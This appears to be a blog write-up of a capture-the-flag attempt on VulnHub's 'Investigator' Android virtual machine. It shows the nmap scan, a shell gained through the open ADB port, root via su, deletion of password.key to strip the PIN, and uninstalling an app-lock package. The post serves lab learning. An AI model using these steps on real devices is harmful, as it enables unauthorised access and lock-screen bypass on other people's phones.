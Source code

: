 ```yaml
---
title: 靶机日记 三 | Investigator
top: 10
categories:
  - Technical
tags:
  - Crack
date: 2020-08-21 19:35:43
---
```


You can find the machine there > [Investigator](https://www.vulnhub.com/entry/investigator-1,504/)

![Banner](http://leiblog.wang/static/image/2020/8/q69oEf.jpg)

This is my first time to hack a Android box. Actually , i have no experience in Android development , but this is a beginner Vuln target machine, i say to myself, it's a great way to learn something new!

<!-- more -->

![](http://leiblog.wang/static/image/2020/8/QxnxDS.png)

**start always with nmap**

```zsh
Princeling-Mac at ~ ❯ nmap -sC -sV -p- -oN nmap/initial 192.168.56.103
Starting Nmap 7.80 ( https://nmap.org ) at 2020-07-06 01:52 EEST
Nmap scan report for android-25abe18209db8058.zte.com.cn (192.168.1.10)
Host is up (0.00025s latency).
Not shown: 65532 closed ports
PORT      STATE SERVICE VERSION
5555/tcp  open  adb     Android Debug Bridge device (name: android_x86; model: VMware Virtual Platform; device: x86)
8080/tcp  open  http    PHP cli server 5.5 or later
|_http-open-proxy: Proxy might be redirecting requests
|_http-title: Welcome To  UnderGround Sector
22000/tcp open  ssh     Dropbear sshd 2014.66 (protocol 2.0)
| ssh-hostkey: 
|   2048 19:e2:9e:6c:c6:8d:af:4e:86:7c:3b:60:91:33:e1:85 (RSA)
|_  521 46:13:43:49:24:88:06:85:6c:75:93:73:b5:1d:8f:28 (ECDSA)
MAC Address: 00:0C:29:37:42:7C (VMware)
Service Info: OSs: Android, Linux; CPE: cpe:/o:linux:linux_kernel
```

Tcp port 5555 is an Android Debug service, we can use adb tools to exploit it.

**expliot with adb service**

```zsh
Princeling-Mac at ~ ❯ adb connect 192.168.56.103
connected to 192.168.56.103:5555
Princeling-Mac at ~ ❯ adb shell
uid=2000(shell) gid=2000(shell) groups=1003(graphics),1004(input),1007(log),1011(adb),1015(sdcard_rw),1028(sdcard_r),3001(net_bt_admin),3002(net_bt),3003(inet),3006(net_bw_stats)@x86:/ $
```

We can even get root shell easily , just type in 'su'.

```zsh
uid=2000(shell) gid=2000(shell) groups=1003(graphics),1004(input),1007(log),1011(adb),1015(sdcard_rw),1028(sdcard_r),3001(net_bt_admin),3002(net_bt),3003(inet),3006(net_bw_stats)@x86:/ $ su
uid=0(root) gid=0(root)@x86:/ # find / -type d -name root
find: /data/property/persist.sys.dalvik.vm.lib: Input/output error
/data/root
```

And get the first key!

```zsh
1|uid=0(root) gid=0(root)@x86:/ # cd /data/root/
uid=0(root) gid=0(root)@x86:/data/root # ls
flag.txt
uid=0(root) gid=0(root)@x86:/data/root # cat flag.txt
Great Move !!!

Itz a easy one right ???

lets make this one lil hard


You flag is not here  !!!


Agent "S"   Your Secret Key ---------------->259148637
uid=0(root) gid=0(root)@x86:/data/root #
```

`259148637`is wrong pin, but we can remove pin with root shell.

```zsh
uid=0(root) gid=0(root)@x86:/data/system # cd /data/system
uid=0(root) gid=0(root)@x86:/data/system # rm password.key
```

Reboot the box, now we can see there is no PIN, If we go to open an app asks for a pattern.

![](http://leiblog.wang/static/image/2020/8/mxV4cO.png)

Unlock it.

```zsh
uid=0(root) gid=0(root)@x86:/ # pm list packages | grep lock
package:com.domobile.applockwatcher
package:bong.android.androidlock
package:com.martianmode.applock
package:com.android.deskclock
promote at ~ ❯ adb uninstall com.martianmode.applock
Success
```

:(((()))) android box is hard to use !!!